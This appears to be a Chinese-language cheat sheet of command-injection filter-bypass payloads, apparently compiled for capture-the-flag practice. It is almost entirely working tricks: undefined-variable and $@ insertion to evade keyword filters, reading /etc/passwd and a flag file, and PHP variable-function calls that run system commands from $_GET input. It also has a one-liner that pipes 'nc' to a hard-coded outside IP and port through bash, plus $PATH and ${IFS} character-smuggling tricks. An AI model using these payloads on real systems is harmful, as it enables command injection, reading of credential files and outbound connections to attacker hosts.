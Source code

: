 + 未定义变量

```shell
cat$x /etc/passwd
```

+ 可变函数

```
(sy.(st).em)(whoami)
$_GET[a]($_GET[b].$_GET[c])

获取内置函数 system 的索引后，直接执行
get_defined_functions()[internal] | grep ststem
get_defined_functions()[internal][381](whoami)
```

+ `$@`

```
$ c$@at fl$@ag
flag{xxx}

$ echo i$@d
id

$ i$@d
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)

$ echo i$@d|$0
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)

$ echo {nc,47.101.220.241,2333}|$0
直接连 nc 了。。。$0 好牛逼？
$0 就相当于 bash 另外 $n 表示命令行第 n 个参数

$ $0<<<i$@d
uid=1000(wywwzjj) gid=1000(wywwzjj) groups=1000(wywwzjj)
```

+ 利用已经存在的资源

```
$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

$ echo $PATH|cut -c 1
/

$ echo $PATH|cut -c 1-4
/usr
```

- ${PS2} 对应字符 ‘>’
- ${PS4} 对应字符 ‘+’
- ${IFS} 对应 内部字段分隔符
- ${9} 对应 空字符串
